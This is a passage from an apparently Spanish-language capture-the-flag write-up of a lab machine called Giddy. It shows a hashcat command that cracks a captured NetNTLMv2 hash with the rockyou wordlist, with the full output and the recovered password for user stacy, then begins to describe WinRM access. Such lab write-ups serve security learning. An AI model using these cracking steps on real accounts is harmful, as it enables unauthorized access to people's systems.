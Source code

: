 Usando Hashcat, rompemos la hash que acabamos de obtener. El diccionario usado fue rockyou.

```
xbytemx@laptop:~$ hashcat -a 0 -m 5600 "Stacy::GIDDY:1122334455667788:B9F9548A74894D13A0FC9DCCAD19ED75:0101000000000000300341DE69C5D401E59EA796893B59570000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000E520622AF481D040F54B36E7D48F871AAABD6B2FEF077311B50C0859DD35C8A90A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310033002E003100320031000000000000000000" ~/wl/rockyou.txt
...
STACY::GIDDY:1122334455667788:b9f9548a74894d13a0fc9dccad19ed75:0101000000000000300341de69c5d401e59ea796893b59570000000002000a0053004d0042003100320001000a0053004d0042003100320004000a0053004d0042003100320003000a0053004d0042003100320005000a0053004d004200310032000800300030000000000000000000000000300000e520622af481d040f54b36e7d48f871aaabd6b2fef077311b50c0859dd35c8a90a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310033002e003100320031000000000000000000:xNnWo6272k7x

Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv2
Hash.Target......: STACY::GIDDY:1122334455667788:b9f9548a74894d13a0fc9...000000
Time.Started.....: Fri Feb 15 14:13:35 2019 (3 secs)
Time.Estimated...: Fri Feb 15 14:13:38 2019 (0 secs)
Guess.Base.......: File (/home/xbytemx/wl/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   816.2 kH/s (4.41ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 2691072/14344384 (18.76%)
Rejected.........: 0/2691072 (0.00%)
Restore.Point....: 2686976/14344384 (18.73%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: xamula -> x21blfam

Started: Fri Feb 15 14:13:25 2019
Stopped: Fri Feb 15 14:13:40 2019
```

# Creds

Las credenciales de stacy son:

> stacy / xNnWo6272k7x

# Logging as stacy

Aquí comenzó la travesía mas incomoda, ya que se podía acceder a la maquina por el portal de remote, pero estaba limitado a dos sesiones para stacy, por lo que había que esperar a que se soltara la sesión. Esto me llevo a buscar alternativas y me encontré con una bastante coqueta, usar una instancia de docker con powershell modificado para correr PSSesion soportando autenticación sobre NTLM. Esto es bastante ventajoso, ya que como recordamos el puerto WinRM, 5985/tcp, se encuentra abierto.
